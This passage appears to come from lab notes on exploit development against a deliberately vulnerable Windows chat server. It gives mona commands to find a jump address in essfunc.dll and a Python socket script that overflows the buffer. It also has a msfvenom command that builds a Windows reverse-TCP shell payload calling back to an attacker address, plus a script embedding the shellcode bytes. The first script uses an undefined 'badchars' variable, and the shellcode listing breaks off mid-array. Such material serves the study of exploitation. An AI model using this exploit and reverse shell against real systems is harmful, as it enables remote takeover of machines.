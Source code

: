 **Now you know that you can overflow a buffer and potentially control execution, you need to find a function where ASLR/DEP is not enabled. Why not check the DLL file.**

- !mona modules - will find protection modules. We are looking for falses straight accross
- We can see that chatserver.exe and essfunc.dll give us falses straight accross.
- !mona find -s "\xff\xe4" -m essfunc.dll
- this finds us our jump point
- 625014DF

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"\xdf\x14\x50\x62"
payload = b""

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + badchars + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- breakpoint at essfunc.625014DF 
- now we can generate shellcode

**Since this would work, you can try generate some shellcode - use msfvenom to generate shellcode for windows.**

- ``msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.23 LPORT=7777 -b "\x00" -f c``

```shell
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xbd\x5c\x4a\x35\x2e\xd9\xcd\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
b"\x52\x31\x6e\x12\x03\x6e\x12\x83\xb2\xb6\xd7\xdb\xb6\xaf\x9a"
b"\x24\x46\x30\xfb\xad\xa3\x01\x3b\xc9\xa0\x32\x8b\x99\xe4\xbe"
b"\x60\xcf\x1c\x34\x04\xd8\x13\xfd\xa3\x3e\x1a\xfe\x98\x03\x3d"
b"\x7c\xe3\x57\x9d\xbd\x2c\xaa\xdc\xfa\x51\x47\x8c\x53\x1d\xfa"
b"\x20\xd7\x6b\xc7\xcb\xab\x7a\x4f\x28\x7b\x7c\x7e\xff\xf7\x27"
b"\xa0\xfe\xd4\x53\xe9\x18\x38\x59\xa3\x93\x8a\x15\x32\x75\xc3"
b"\xd6\x99\xb8\xeb\x24\xe3\xfd\xcc\xd6\x96\xf7\x2e\x6a\xa1\xcc"
b"\x4d\xb0\x24\xd6\xf6\x33\x9e\x32\x06\x97\x79\xb1\x04\x5c\x0d"
b"\x9d\x08\x63\xc2\x96\x35\xe8\xe5\x78\xbc\xaa\xc1\x5c\xe4\x69"
b"\x6b\xc5\x40\xdf\x94\x15\x2b\x80\x30\x5e\xc6\xd5\x48\x3d\x8f"
b"\x1a\x61\xbd\x4f\x35\xf2\xce\x7d\x9a\xa8\x58\xce\x53\x77\x9f"
b"\x31\x4e\xcf\x0f\xcc\x71\x30\x06\x0b\x25\x60\x30\xba\x46\xeb"
b"\xc0\x43\x93\xbc\x90\xeb\x4c\x7d\x40\x4c\x3d\x15\x8a\x43\x62"
b"\x05\xb5\x89\x0b\xac\x4c\x5a\xf4\x99\x4e\x8d\x9c\xdb\x4e\xaf"
b"\x3d\x55\xa8\xa5\xad\x33\x63\x52\x57\x1e\xff\xc3\x98\xb4\x7a"
b"\xc3\x13\x3b\x7b\x8a\xd3\x36\x6f\x7b\x14\x0d\xcd\x2a\x2b\xbb"
b"\x79\xb0\xbe\x20\x79\xbf\xa2\xfe\x2e\xe8\x15\xf7\xba\x04\x0f"
b"\xa1\xd8\xd4\xc9\x8a\x58\x03\x2a\x14\x61\xc6\x16\x32\x71\x1e"
```